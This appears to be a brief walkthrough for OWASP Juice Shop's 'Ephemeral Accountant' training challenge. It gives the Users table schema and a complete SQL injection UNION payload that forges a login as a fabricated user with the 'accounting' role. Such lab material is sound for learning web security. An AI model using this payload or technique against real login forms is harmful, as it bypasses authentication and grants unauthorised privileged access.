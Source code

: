 # Ephemeral Accountant

![alt text](assets/ephemeral1.png)

```sql
CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)
```

**Payload**

```sql
' UNION SELECT * FROM (SELECT 24 as id, 'acc0unt4nt' as username, 'acc0unt4nt@juice-sh.op' as email, 'test' as password, 'accounting' as role, '' as deluxeToken, '1.1.1.1' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '13131313' as createdAt, '13131314' as updatedAt, null as deletedAt) AS try WHERE '1'='1';--"
```

![alt text](assets/ephemeral2.png)

![alt text](assets/ephemeral3.png)